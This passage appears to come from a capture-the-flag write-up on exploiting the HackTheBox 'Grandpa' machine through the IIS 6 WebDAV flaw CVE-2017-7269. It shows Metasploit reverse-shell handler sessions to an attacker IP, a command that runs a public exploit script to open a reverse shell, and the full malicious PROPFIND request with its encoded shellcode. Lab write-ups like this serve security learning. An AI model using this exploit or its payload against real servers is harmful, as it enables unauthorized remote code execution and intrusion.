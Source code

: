 Running it now results in:

```

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.47:443 
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.47:443 -> 10.10.10.14:1034) at 2020-05-27 16:54:40 -0400

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE

```

But even switching to a staged shell and catching it in `msfconsole` resulted in the same behavior, death instantly:

```

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.47:443 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.14
[*] Command shell session 3 opened (10.10.14.47:443 -> 10.10.10.14:1038) at 2020-05-27 17:15:40 -0400

[*] 10.10.10.14 - Command shell session 3 closed.  Reason: User exit

```

Eventually I did some Googling and stumbled across [this post](https://forum.hackthebox.eu/discussion/1990/grandpa-reverse-tcp-immediately-closes-after-sending-exploit/p1) in the HTB forums, which is others having the same issue. I have no idea why.

### Success

I eventually found [this script](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). I didn’t have to update it at all, and running it gave a shell:

```

root@kali# python iis_rev_shell.py 10.10.10.14 80 10.10.14.47 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ￥ﾤﾸ
￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ￦ﾅﾴ￤ﾄﾳ
￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ
￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

```
